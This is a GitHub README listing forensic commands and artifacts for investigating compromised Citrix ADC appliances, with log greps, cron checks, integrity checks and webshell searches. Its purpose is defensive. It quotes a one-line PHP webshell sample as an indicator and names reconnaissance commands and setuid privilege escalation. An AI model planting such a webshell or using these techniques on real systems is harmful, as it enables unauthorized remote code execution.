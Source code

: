 # Citrix ADC Forensics
This repository provides a comprehensive list of commands & artifacts to search for while performing a forensic investigation on Citrix ADC appliances. Contributions are welcome.<br>

# To-Do
I will make a wrapper around these commands and provide an `.sh` file.

# Forensics

Generally located log files:
```
/var/log/*
```

Failed authentication attempts
```
zcat /var/log/ns.log.*.gz | grep "Authentication is rejected" | awk '{$1=$2=$3=$4=$5=$6=$7=$8=""; print $0}' | sort | uniq -c | sort -nr
```

SSH logs
```
zcat /var/log/auth.log.*.gz | grep -i "sshd" | grep -i "accepted password" | awk '{$1=$2=$3=$4=$5=$6=$7=$8=""; sub(/^[[:space:]]+/, ""); print "Accepted password for " $0}' | uniq -c | sort -nr
```

Search for suspicious commands
```
curl
hostname
uname
nobody
whoami
id
```

Search for suspicious activity in the http logs
```
/var/log/httpaccess.log
/var/log/httperror.log
```

Look for suspicious files in these directories. Payloads are often placed here.
```
/netscaler/portal/templates
/var/tmp/netscaler/portal/templates
```

Look for processes and child processes
```
ps aux
ps aux | grep nobody
```

Look for cronjobs and also the cron history
```
crontab -l -u nobody
crontab -l -u nsroot
crontab -l -u root

/var/log/cron
```

Look for unauthorized modifications to the crontab file and/or existence of suspicious files in /var/cron/tabs and other locations
```
find / -type f -name “res*” | grep -E ‘res($|\.[a-z]{3})$’
```

Check the file integrity with a md5 sum. Compare them with a 100% secure ADC.
```
cd /netscaler ; for i in “nsppe nsaaad nsconf nsreadfile nsconmsg”; do md5 ${i} ; done
```

Check for APT5 techniques. This should provide no output. If yes, potential compromise.
```
procstat –v $(pgrep –o –i nsppe) | grep “0x10400000 “ | grep “rwx”
```

Check for unusual administrator activity. You can look for the `pb_policy` in the `ns.log` file.
```
Example:

<local0.info> [hostname] pb_policy: Changing pitboss policy from X to Y
<local0.info> [hostname] pb_policy: Changing pitboss policy from Y to X

X & Y are constant values for you system
```

Check for potential PHP WebShells
```
/var/netscaler/logon/LogonPoint/uiareas/[FILE].php


content could be something like this:
<?php http_response_code(201); @eval($_POST[5]);

Look out in the httpaccess.log file for POST requests for the /logon/LogonPoint URL

Commmand1

fgrep -a -e http_response_code -e '$_POST' -r /var/netscaler/ | fgrep -v -e '/var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'

Command2

fgrep -a -e http_response_code -e '$_POST' -r /var/vpn/ | fgrep -v -e' /var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'

Command3

fgrep -a -e http_response_code -e '$_POST' -r /netscaler/ | fgrep -v -e '/var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'
```

Check for php files excluding folders that have PHP files from them by default
```
find / -type f -name *.php* -not -path "/var/netscaler/gui/admin_ui/*" -not -path "/netscaler/websocketd/*" -not -path "/netscaler/ns_gui/admin_ui/*"
```

Search for *setuid* binaries. This is a setuid Privilege Escalation technique.
```
find / -perm -4000 -user root -exec ls -lc {} \;

normal files which have the setuid bit set

-r-sr-xr-x 1 root wheel 27872 Jul 10 18:24 /netscaler/ping   
-r-sr-xr-x 1 root wheel 32656 Jul 10 18:24 /netscaler/ping6   
-r-sr-xr-x 1 root wheel 31844 Jul 10 18:24 /netscaler/traceroute  
-r-sr-xr-x 1 root wheel 24784 Jul 10 18:24 /netscaler/traceroute6   
-r-sr-xr-- 1 root operator 10584 Jul 10 18:09 /sbin/mksnap_ffs   
-r-sr-xr-- 2 root operator 15936 Jul 10 18:09 /sbin/shutdown   
-r-sr-xr-- 2 root operator 15936 Jul 10 18:09 /sbin/poweroff   
-r-sr-xr-x 1 root wheel 34352 Jul 10 18:09 /usr/bin/crontab   
-r-sr-xr-x 1 root wheel 11632 Jul 10 18:09 /usr/bin/lock   
-r-sr-xr-x 1 root wheel 24552 Jul 10 18:09 /usr/bin/login   
-r-sr-xr-x 1 root wheel 9736 Jul 10 18:09 /usr/bin/passwd   
-r-sr-xr-x 1 root wheel 16408 Jul 10 18:09 /usr/bin/su   
-r-sr-xr-x 1 root wheel 74008 Jul 10 18:09 /usr/libexec/ssh-keysign
```

# Launch the THOR APT Scanner
@Neo23x0 a.k.a Florian Roth did a pretty good guide on how to use the free version of the THOR APT Scanenr to scan the citrix ADC.<br><br>
Follow the link: https://www.nextron-systems.com/2020/01/14/automated-citrix-netscaler-forensic-analysis-with-thor/


# References
2024-01-26, https://trustedsec.com/blog/netscaler-remote-code-execution-forensics<br>
2024-01-26, https://www.mandiant.com/resources/blog/session-hijacking-citrix-cve-2023-4966<br>
2024-01-26, https://support.citrix.com/article/CTX227560/citrix-adc-logs-collection-guide<br>
2024-01-26, https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-201a<br>
2024-01-26, https://www.nextron-systems.com/2020/01/14/automated-citrix-netscaler-forensic-analysis-with-thor/<br>
2024-01-26, https://media.defense.gov/2022/Dec/13/2003131586/-1/-1/0/CSA-APT5-CITRIXADC-V1.PDF<br>
